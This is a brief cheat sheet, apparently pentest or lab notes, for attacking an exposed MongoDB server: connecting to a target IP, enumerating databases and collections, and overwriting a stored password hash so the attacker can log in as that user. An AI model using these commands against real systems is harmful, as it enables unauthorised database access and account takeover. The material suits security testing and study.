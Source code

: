 

Installation of `mongosh`
```
wget https://downloads.mongodb.com/compass/mongodb-mongosh_2.1.1_amd64.deb

sudo dpkg -i mongodb-mongosh_2.1.1_amd64.deb  
```
Connect to `mongo`
```
mongosh mongodb://<TARGET_IP>:27017
```
Mongo commands
```
show tables;
show dbs;
use <DATABASE_NAME>;
db.<collection_name>.find();
```
Overwriting credentials
```
mkpasswd -m sha-512 Password1234
mongo --port <PORT> <DATABASE> --eval 'db.<COLLECTION>.update({"_id": ObjectId("<OBJECT_ID>")},{$set:{"<FIELD_NAME>":"<NEW_HASH>"}})'
mongo --port <PORT> -u <USERNAME> -p <NEW_PASSWORD> --authenticationDatabase <DATABASE_NAME>
```
